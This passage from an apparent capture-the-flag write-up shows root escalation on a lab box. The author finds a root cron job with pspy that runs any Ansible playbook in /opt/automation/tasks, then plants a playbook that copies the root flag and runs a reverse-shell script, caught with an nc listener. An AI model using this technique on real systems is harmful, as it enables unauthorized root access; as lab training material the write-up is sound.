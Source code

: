 ## Root flag

I had to run this tool in order to enumrate the box: https://github.com/DominicBreuker/pspy - The following lines caught my attention:

```bash
2023/03/20 20:06:01 CMD: UID=0     PID=8069   | /usr/bin/python3 /usr/local/bin/ansible-parallel /opt/automation/tasks/playbook_1.yml
2023/03/20 20:06:01 CMD: UID=0     PID=8068   | /bin/sh -c /usr/local/bin/ansible-parallel /opt/automation/tasks/*.yml
2023/03/20 20:06:01 CMD: UID=0     PID=8070   | /bin/sh -c sleep 10 && /usr/bin/rm -rf /opt/automation/tasks/* && /usr/bin/cp /root/playbook_1.yml /opt/automation/tasks/
2023/03/20 20:06:01 CMD: UID=0     PID=8071   | /bin/sh -c sleep 10 && /usr/bin/rm -rf /opt/automation/tasks/* && /usr/bin/cp /root/playbook_1.yml /opt/automation/tasks/
```

There is a cron job that executes ansible-parallel playbooks, whatever is put on this directory is executed: `/opt/automation/tasks`, check this playbook, it basically copies the root.txt to tmp and also I have a t.sh bash script that opens a reverse shell:

```yaml
- hosts: localhost
  tasks:
  - name: Copy file yeah
    ansible.builtin.copy:
      src: /root/root.txt
      dest: /tmp/root.txt
      owner: phil
      group: phil
      mode: '0644'
  - name: Run remote shell
    script: /home/phil/t.sh
```

Results?
```bash
x» nc -lvnp 55555
Connection from 10.129.233.105:48048
sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# pwd
/opt/automation/tasks
# ls ~/
playbook_1.yml
root.txt
```

